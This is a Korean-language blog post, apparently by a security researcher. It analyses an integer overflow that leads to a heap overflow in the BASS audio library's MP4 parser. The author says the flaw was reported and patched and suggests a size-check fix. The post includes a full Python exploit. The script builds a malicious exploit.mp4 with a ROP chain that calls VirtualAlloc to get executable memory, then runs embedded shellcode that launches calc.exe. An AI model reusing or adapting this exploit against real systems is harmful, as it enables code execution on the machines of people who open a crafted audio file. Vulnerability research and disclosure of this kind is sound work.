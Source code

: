 # Audio Library vulnerability analysis

3-4년전에 찾아서 제보했던 오디오 라이브러리에 대한 취약점 분석글입니다.

BASS는 MP3,ACC,M4P,FLAC,OGG,WAV 등 여러가지 확장자를 지원하는 오디오 라이브러리입니다. 다수 프로그램이 현재까지도 사용하고 있습니다.



## 취약점 분석

### 개요

Audio File을 파싱하던중  data 태그부분에서 integer overflow가 발생합니다. integer overflow를 통해 보다 작은 값을 힙할당 하게 되어 Heap overflow로 이어집니다.

### 분석

![image-20201117134210220](/assets/2020-11-26-audio_lib_exploit/image-20201117134210220.png) 

*sub_110249B6 (strlen)

*sub_11001009 (heap alloc)

*sub_110031E6 (File Read)

첫번째 박스에서 v4가 파일에서 읽어온 값입니다. (v4-7+3)&0xFC만큼 스택을 할당하고 파일에서 읽어와 해당스택에 저장합니다. 그리고 두번째 박스에서 data 태그를 파싱할때 힙할당시 계산되는 사이즈부분에서 검증미흡으로 integer overflow가 발생하게 됩니다.

v66은 파일에서 가져온 값이며, v8은 첫번째 박스에서 할당한 스택에 있는 내용의 길이입니다. 둘의 값을 잘 조절하면, 0xffffffff의 값을 넘기게 하여 v66보다 작은값을 할당 할 수 있습니다. 

v66-16 사이즈만큼 파일 데이터를 읽오다 sub_110031E6 내부에서 Heap overflow가 발생하게 됩니다.



### Exploit

![image-20201117140035807](/assets/2020-11-26-audio_lib_exploit/image-20201117140035807.png)

sub_110031E6 내부에서 qmemcpy로 읽은 파일내용을 복사한 이후에, sub_11003749가 호출됩니다.



![image-20201117140119996](/assets/2020-11-26-audio_lib_exploit/image-20201117140119996.png)

sub_11003749 함수에서 (*(a1+0x30)) 함수포인터가 호출되게 됩니다. 이때 Heap overflow로 인해 *(a1+0x30)의 값을 마음대로 조작 할 수 있게 되어 EIP 컨트롤을 할 수 있게 됩니다.

![image-20201117141031393](/assets/2020-11-26-audio_lib_exploit/image-20201117141031393.png)

WinDbg를 통해 디버깅을 진행해보았습니다. 함수 포인터를 호출할때, 스택상황을 보면, ESP에서 0x48만큼 떨어진거리에 아까 스택할당후 저장한 파일데이터가 존재하는것을 확인 할 수 있습니다.  해당부분에 ROP Chain을 구상하고,  "add esp,0x~~;ret" 와 같은 가젯을 사용하여 ROP Chain을 실행시켰습니다.



![image-20201117141227737](/assets/2020-11-26-audio_lib_exploit/image-20201117141227737.png)



Virtual_alloca API를 통해 rwx 권한을 주고, 그공간에 쉘코드를 복사하고 점프하여 실행시키는 ROP Chain을 작성하였습니다.



![image-20201117141641705](/assets/2020-11-26-audio_lib_exploit/image-20201117141641705.png)

BASS 라이브러리를 사용하고 A사 프로그램에서 테스트 하였습니다. (패치완료됨)

익스플로잇 파일을 읽으면 쉘코드(calc.exe)가 실행되는것을 볼 수 있습니다. 



### Exploit Code

```python
from struct import *

p32 = lambda x : pack("<L",x)

loop_cpy = ""
sub_eax = ""

shellcode = "\x90"*0x30 + "\x31\xdb\x64\x8b\x7b\x30\x8b\x7f\x0c\x8b\x7f\x1c\x8b\x47\x08\x8b\x77\x20\x8b\x3f\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x89\xdd\x8b\x34\xaf\x01\xc6\x45\x81\x3e\x43\x72\x65\x61\x75\xf2\x81\x7e\x08\x6f\x63\x65\x73\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x89\xd9\xb1\xff\x53\xe2\xfd\x68\x63\x61\x6c\x63\x89\xe2\x52\x52\x53\x53\x53\x53\x53\x53\x52\x53\xff\xd7\xeb\xfe" + "\x90\x90"

#rop_gadget
cpy = 0x6350cbbc # mov dword ptr [eax], ecx ; pop esi ; ret
pop_ecx = 0x635070f2 
inc_eax = 0x63506ad8
jmp_eax = 0x63506dad # push eax ; ret
add_esp_13c = 0x63503f0b# : add esp, 0x13c ; ret   0x13c-0x48
virtual_alloc = 0x6350f0a4
ppppr = 0x63507389 # pop edi ; pop esi ; pop ebx ; pop ebp ; ret
pop_eax = 0x63507228 #: pop eax ; ret
push_ecx_ptr = 0x6070fff1 #: push dword ptr [ecx] ; add byte ptr [eax], al ; ret 0xc
mov_eax_ebx = 0x63507484 #: mov eax, ebx ; pop esi ; pop ebx ; pop ebp ; ret
sub_eax_20 = 0x6350db86 #: sub eax, 0x20 ; pop ebx ; ret

for i in range(0,len(shellcode),4):
	loop_cpy += p32(pop_ecx)
	loop_cpy += shellcode[i:i+4]
	loop_cpy += p32(cpy)
	loop_cpy += "\x90\x90\x90\x90"
	loop_cpy += p32(inc_eax)
	loop_cpy += p32(inc_eax)
	loop_cpy += p32(inc_eax)
	loop_cpy += p32(inc_eax)

rop_chain = p32(mov_eax_ebx)
rop_chain += "\x90"*12            
rop_chain +=  p32(pop_ecx)
rop_chain += p32(virtual_alloc)
rop_chain += p32(push_ecx_ptr)
rop_chain += "\x90"*0xc
rop_chain += p32(ppppr)
rop_chain += p32(0)
rop_chain += p32(0x10000) # size
rop_chain += p32(0x1000)
rop_chain += p32(0x40) # execution
rop_chain += "\x90"*0x10
rop_chain += loop_cpy

for k in range(0,4,1):
	sub_eax += p32(sub_eax_20)
	sub_eax += "\x90\x90\x90\x90"

rop_chain += sub_eax
rop_chain += p32(jmp_eax)

header = "\x00\x00\x00\x08"
header += "\x66\x74\x79\x70" # file signature
header += "\x00\x00\x00\x09"   #  0x10 > 0x11   break pass
header += "\x69\x6C\x73\x74" # ilst
header += "\x00\x00\xAf\xff"  # 1 read size
header += "\x6E\x61\x6D\x65" # name
header += "\x90\x90\x90\x90" # dummy 

rop_space = "\x90"*0xf0 + p32(add_esp_13c) + "\x90"*0x13c 
for k in range(0,0x25,1):
	rop_space += p32(add_esp_13c)*0xf0

rop_space += rop_chain # 23c
rop_space += "\x90"*(0xAff3-len(rop_space))

header += rop_space

data_header = "\xff\xff\x72\xeb"
data_header += "\x64\x61\x74\x61"
data = "\x90\x90\x90" + p32(add_esp_13c)*(0xfd0/4)

f = open("exploit.mp4","w")
payload = header + data_header + data 

f.write(payload)
f.close()

```



### 대응방안

integer overflow가 발생하지 않게 사이즈 검증을 하는코드를 추가 합니다.

